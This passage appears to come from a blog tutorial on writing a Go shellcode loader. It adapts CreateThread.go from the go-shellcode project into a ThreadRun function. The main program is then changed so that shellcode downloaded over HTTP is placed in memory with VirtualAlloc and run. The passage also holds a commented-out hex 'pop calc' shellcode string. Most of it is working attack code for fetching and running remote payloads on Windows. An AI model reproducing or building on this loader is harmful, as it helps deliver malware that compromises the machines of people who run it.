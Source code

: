 ```
root@ubuntu:~/Documents/blogcode# cp ../go-shellcode/cmd/CreateThread/main.go run/CreateThread.go
root@ubuntu:~/Documents/blogcode# tree
.
├── go.mod
├── main.go
└── run
    └── CreateThread.go

2 directories, 3 files
```

Remove debugging code and change the function name of `CreateThread.go` to `ThreadRun`, now we can call the function `ThreadRun()` and put our shellcode into this function!

- `run/CreateThread.go`

``` go
package run

...

func ThreadRun(shellcode []byte) {
        // Pop Calc Shellcode
        // shellcode, errShellcode := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")

        addr, errVirtualAlloc := windows.VirtualAlloc(uintptr(0), uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)

        if errVirtualAlloc != nil {
                log.Fatal(fmt.Sprintf("[!]Error calling VirtualAlloc:\r\n%s", errVirtualAlloc.Error()))
        }

        if addr == 0 {
                log.Fatal("[!]VirtualAlloc failed and returned 0")
        }
...
```

- `main.go`
Import the package of `CreateThread.go`, Delete the write to file part and replace with single line of code `run.ThreadRun(body)`
``` go
import (
	...
	blodcode/run
)

...
// body will be shellcode
        body, err := io.ReadAll(resp.Body)
        if err != nil {
                fmt.Println(err)
        }

        run.ThreadRun(body)
```
